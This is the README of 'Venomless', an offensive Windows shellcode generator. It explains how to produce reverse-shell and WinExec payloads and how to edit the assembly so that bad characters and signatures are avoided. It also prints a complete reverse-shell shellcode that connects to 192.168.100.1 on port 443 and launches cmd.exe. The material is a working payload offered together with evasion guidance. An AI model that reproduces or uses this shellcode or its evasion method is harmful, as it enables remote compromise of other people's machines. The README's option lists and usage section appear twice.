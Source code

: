 # Summary 

Venomless is a custom 32-bit windows shellcode generator designed to provide either a reverse shell or the execution of a specified command through winexec. The shellcode that is generated can be checked for the presence of bad characters and customized in order to avoid bad characters or signatures. 

The generate.py contains a Position Independent Shellcode stub and several custom functions to make creating any win32 API call much easier. This includes a formatString function to format putting strings onto the stack as well as a loadLibrary function that will load a library, find a function within it and store it within an EBP offset.

Venomless uses the keystone engine and can output shellcode in several formats (python, csharp, c, raw, assembly, keystone).

It can also provide simple payloads in c, python and csharp format as well as shellcode runners in those languages.

## usage

The following will create a python script for generating the shellcode for a reverse shell. The assembly can be customized to avoid bad characters or signatures.

`venomless.py -r -l 192.168.100.1 -p 443 -t`


-r, --revshell                      Generate a reverse shell. Requires -l, --lhost and -p, --port arguments.
-c <command>, --cmd                 Creates a payload that uses the WinExec API call to perform a command. 
-o <filename>, --output             Outputs the shellcode to a text file 
-f, --format <format>
        formats:
        assembly              Outputs the assembly 
        keystone              Outputs a python script that contains the shellcode and will use the keystone engine to test the payload. Useful for editing out bad bytes. 
        python                Outputs the Shellcode in a python byte array. If -t set, then will generate a python script to test payload.
        csharp                Outputs the shellcode in a csharp byte array. If -t set, then will generate a .cs file to compile to test payload. 
        c                Outputs the shellcode in a c byte array. If -t set, then will generate a .c file to compile to test payload.

-b, --badchars      Will search for bad characters in output and highlight them. Will also provide basic disassembly of relevant shellcode.





# Introduction

Venomless is a custom 32-bit windows shellcode generator designed to provide either a reverse shell or the execution of a specified command. This is designed to be the starting point for custom windows payloads that the user can alter in order to avoid bad characters and heuristics. Venomless includes the ability to detect bad characters in the resulting shellcode and to output a keystone script with comments where the bad characters exist so that they can be easily altered. 

The generate.py uses the keystone engine and some custom QoL functions in order to create position-independent shellcode. These QoL functions can easily be used to call other windows APIs. formatString automates putting any string onto the stack, loadLibrary loads a library finds a function inside of it and stores it in a specified EBP offset.

# Installation

I highly recommend using a virtual environment.

requires keystone


# Usage

The following will create a python script for generating the shellcode for a reverse shell using keystone. The assembly can be customized to avoid bad characters or signatures.

`venomless.py -r -l 192.168.100.1 -p 443 -b 0x00,0x28,0xa0`
 
This will output a "badchars.py" keystone script by default which contains comments about which instructions are bad.

e.x:

```asm 
"start:"
"mov ebp, esp               ;"
######## Bad Character located at instruction below ############"
### 81 c4 a0 f6 ff ff : add esp, 0xfffff6A0        ;"
"add esp, 0xfffff6A0        ;"
"find_kernel32:"
"xor ecx, ecx               ;"
"mov esi, fs:[ecx+30h]      ;"
"mov esi, [esi+0Ch]         ;"
"mov esi, [esi+1Ch]         ;"
"next_module:"
```

This bad character can be adjusted by simply changing the value that is subtracted from esp. Once the instruction has been changed, the shellcode can be generated with badchars.py. 

```
Encoded 200 instructions
Looking for bad characters in all shellcode (simple test)
No bad characters found!
size = 398
shellcode = b"\x89\xe5\x81\xc4\xa4\xf6\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\xbf\xe0\xff\xff\xff\xf7\xdf\x01\xf7\x8b\x3f\x8b\x36\x66\x39\x4f\x18\x75\xea\xeb\x06\x5e\x89\x75\x04\xeb\x5c\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x01\xdf\x8b\x4f\x18\xba\xe0\xff\xff\xff\xf7\xda\x01\xfa\x8b\x02\x01\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x01\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x01\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89\x44\x24\x1c\x61\xc3\x68\x83\xb9\xb5\x78\xff\x55\x04\x89\x45\x08\x68\x8e\x4e\x0e\xec\xff\x55\x04\x89\x45\x0c\x68\x72\xfe\xb3\x16\xff\x55\x04\x89\x45\x10\x31\xc0\x66\xb8\x6c\x6c\x50\x68\x33\x32\x2e\x64\x68\x77\x73\x32\x5f\x54\xff\x55\x0c\x89\xc3\x68\xcb\xed\xfc\x3b\xff\x55\x04\x89\x45\x14\x68\xd9\x09\xf5\xad\xff\x55\x04\x89\x45\x18\x68\x0c\xba\x2d\xb3\xff\x55\x04\x89\x45\x1c\x31\xc9\x89\xe0\x66\xb9\x90\x05\x29\xc8\x50\x31\xc0\x66\xb8\x02\x02\x50\xff\x55\x14\x31\xc0\x50\x50\x50\xb0\x06\x50\x2c\x05\x50\x40\x50\xff\x55\x18\x89\xc6\x31\xc0\x50\x50\x68\xc0\xa8\x64\x01\x66\xb8\x01\xbb\xc1\xe0\x10\x66\x83\xc0\x02\x50\x54\x5f\x31\xc0\x50\x50\x50\x50\x04\x10\x50\x57\x56\xff\x55\x1c\x56\x56\x56\x31\xc0\x50\x50\xb0\x7f\xfe\xc0\x31\xc9\xb1\x7f\xfe\xc1\x01\xc8\x50\x31\xc0\x50\x50\x50\x50\x50\x50\x50\x50\x50\x50\xb0\x44\x50\x54\x5f\x31\xc0\xb4\x65\xc1\xe0\x08\x66\xb8\x65\x78\x50\x68\x63\x6d\x64\x2e\x54\x5b\x89\xe0\x31\xc9\x66\xb9\x90\x03\x29\xc8\x50\x57\x31\xc0\x50\x50\x50\x40\x50\x48\x50\x50\x53\x50\xff\x55\x10\x31\xc0\x50\x6a\xff\xff\x55\x08"
```



-r, --revshell                      Generate a reverse shell. Requires -l, --lhost and -p, --port arguments.
-c <command>, --cmd                 Creates a payload that uses the WinExec API call to perform a command. 
-o <filename>, --output             Outputs the shellcode to a text file 
-f, --format <format>
        formats:
        assembly              Outputs the assembly
        raw                   Outputs raw shellcode in format "\xXX".
        keystone              Outputs a python script that contains the shellcode and will use the keystone engine to test the payload. Useful for editing out bad bytes. 
        python                Outputs the Shellcode in a python byte array. If -t set, then will generate a python script to test payload.
        csharp                Outputs the shellcode in a csharp byte array. If -t set, then will generate a .cs file to compile to test payload. 
        c                Outputs the shellcode in a c byte array. If -t set, then will generate a .c file to compile to test payload.

-b, --badchars      Will search for bad characters in shellcode and generate a keystone script with all found bad characters commented.


